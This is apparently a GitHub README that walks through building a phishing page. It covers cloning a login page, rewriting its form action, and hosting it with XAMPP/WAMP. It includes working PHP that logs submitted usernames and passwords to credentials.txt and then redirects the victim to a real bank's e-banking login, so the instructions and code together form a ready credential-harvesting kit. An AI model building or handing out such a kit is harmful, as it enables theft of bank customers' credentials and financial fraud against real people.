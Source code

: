 # phishing


What phishing website does?

Phishing is get sensitive data like passwords, credit card details using fake websites and emails. This is the good example to social 
engineering because this fake website same as the original web site. So user easily caught this unauthorized websites. 

For further details go to https://udeshina.blogspot.com/ 

How to host the phishing page on our computer using XAMPP/WAMP ?

1) Open the website in the browser for which you want to create a phishing page. Right click and save as index.html.

![capture1](https://cloud.githubusercontent.com/assets/18233358/24329625/faa91b94-1229-11e7-8c3b-fd3ae79db078.PNG)

2) Then open that html in a note pad. Now search string "action" and change address to validate.php

                   <form action="validate.php" method="post">

3) Now open notepad, type following code in it and save it as validate.php. This is create for store credentials.

                    <?php
                    $username = $_POST["username"];
                    $password = $_POST["passwd"];
 
                    //Get credentials to .txt file
                    $myfile = fopen("credentials.txt", "a") or die("Unable to open file!");
                    $txt = "USERNAME = $username , PASSWORD = $password\n";
                    fwrite($myfile, "\n". $txt);
                    fclose($myfile);
 
                    //Redirect the browser to original login page
                    header("Location: https://www.ebank.peoplesbank.lk/eb/index.html");
 
                    exit();

                    ?>

4) Then create credentials.txt file to store these credentials.

5) Host that created files to XAMMP/WAMP.

![capture15](https://cloud.githubusercontent.com/assets/18233358/24329725/8ecfe7a6-122c-11e7-9c95-fa13dad02083.PNG)

6) Then run that phishing website on browser and enter credentials.

![capture14](https://cloud.githubusercontent.com/assets/18233358/24329565/f023d058-1227-11e7-9e8e-e1297b9771ea.PNG)

7) That credentials store credentials.txt file. You can view that file and get that credentials easily.

![capture17](https://cloud.githubusercontent.com/assets/18233358/24329768/b7b34f0e-122d-11e7-994d-19cb39c11ef5.PNG)


Please enter your suggetions about this.









